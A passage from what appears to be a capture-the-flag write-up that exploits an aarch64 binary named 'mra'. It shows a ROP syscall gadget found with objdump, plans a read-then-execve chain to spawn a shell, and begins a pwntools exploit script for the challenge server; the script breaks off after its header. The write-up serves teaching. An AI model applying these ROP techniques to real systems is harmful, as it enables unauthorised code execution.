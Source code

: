 As stated in the summary above, statically-linked Linux binaries are fully
stocked with ROP gadgets including `syscall`, or in this case `svc #0`.

To see what my options were I used `/usr/bin/aarch64-linux-gnu-objdump -d mra | grep -A10 -B10 svc`:

```  
 4007b4:       f85f83e8        ldur    x8, [sp, #-8]  
 4007b8:       f85f03e0        ldur    x0, [sp, #-16]  
 4007bc:       f85e83e1        ldur    x1, [sp, #-24]  
 4007c0:       f85e03e2        ldur    x2, [sp, #-32]  
 4007c4:       d4000001        svc     #0x0  
 4007c8:       d10083ff        sub     sp, sp, #0x20  
 4007cc:       d65f03c0        ret  
```

> This isn't the complete output, there are many more, but this first hit, is
> all we need.

This gadget will read _up_ stack the syscall number, and its first three
parameters, then execute the syscall, after that the stack pointer will be
moved _up_ to our next set of parameters, then `ret`, but `ret` to what?
Well, `syscall` again! (See [strong-arm](https://github.com/datajerk/ctf-
write-ups/tree/master/wpictf2021/strong_arm) for a detailed write up on
Aarch64 ROP).

### Attack

The plan is rather simple, use the `read` syscall to read `/bin/sh` into the
BSS, then chain to `execve` to get a shell.

## Exploit

```python  
#!/usr/bin/env python3

from pwn import *  
import urllib.parse

binary = context.binary = ELF('./mra')  
binary.symbols['syscall'] = 0x4007b4

if args.REMOTE:  
   p = remote('mra.challenges.ooo', 8000)  
else:  
   if args.GDB:  
       p = process(('qemu-'+context.arch+' -g 9000 -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())  
   else:  
       p = process(('qemu-'+context.arch+' -L /usr/'+context.arch+'-linux-gnu '+binary.path).split())  
```

Standard pwntools header, plus creating a symbol for our syscall gadget.
